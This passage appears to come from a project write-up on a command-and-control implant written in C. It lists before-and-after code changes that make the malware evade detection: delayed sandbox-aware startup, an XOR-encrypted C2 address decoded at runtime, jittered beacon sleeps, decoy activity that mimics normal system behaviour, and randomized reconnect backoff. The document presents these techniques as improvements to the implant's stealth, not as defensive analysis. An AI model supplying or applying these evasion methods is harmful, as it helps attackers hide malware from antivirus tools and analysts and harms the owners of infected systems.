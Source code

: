 #### B. Delayed Startup:
```c
// OLD: Connect immediately
socket_connect(sock, c2_host, c2_port);  // <1 second

// NEW: Realistic delays
stealthy_startup();  // 70-200 seconds
// Includes:
// - Initial random delay (30-90s)
// - Legitimate behavior simulation
// - Internet connectivity checks
// - Random jitter throughout
```

#### C. String Obfuscation:
```c
// OLD: Hardcoded C2
#define SERVER_HOST "127.0.0.1"  // ❌ Visible with strings

// NEW: XOR encrypted
uint8_t encrypted_host[] = {0x6D, 0x5F, 0xF3, 0x7E, ...};
deobfuscate_c2_address(c2_host, sizeof(c2_host));  // ✅ Decoded at runtime
```

#### D. Jittered Sleep:
```c
// OLD: Predictable
sleep_ms(5000);  // Always exactly 5 seconds

// NEW: Random jitter
jittered_sleep(5000, 2000);  // 3-7 seconds (random)
polymorphic_sleep(5000);     // Different behavior each time
```

#### E. Decoy Behavior:
```c
perform_decoy_behavior();
// Actions:
// 1. Check for updates (to microsoft.com)
// 2. Read registry keys
// 3. Get system info
// 4. Check temp directory
// Total: 5-7 seconds of "normal" behavior
```

#### F. Smart Retry Logic:
```c
// OLD: Fixed pattern
sleep_ms(10000 * (retry_count + 1));  // 10s, 20s, 30s...

// NEW: Exponential backoff + jitter
calculate_retry_delay(&retry_config);  // 5s, 10s, 20s, 40s... (with random)
```
